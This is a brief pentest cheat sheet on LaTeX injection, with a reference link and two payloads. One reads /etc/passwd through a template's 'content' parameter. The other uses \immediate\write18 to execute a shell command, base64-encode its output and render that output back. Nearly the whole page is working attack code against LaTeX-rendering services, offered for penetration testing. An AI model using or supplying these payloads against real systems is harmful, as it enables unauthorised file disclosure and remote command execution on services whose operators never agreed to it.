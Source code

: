 # Latex Injection

## General

* https://0day.work/hacking-with-latex/

```bash read file
content=\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file&template=test2
```

```bash execute command
\immediate\write18{ls|base64 > test.txt}
\newread\file
\openin\file=test.txt
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
```

tags: #latex #pentest 
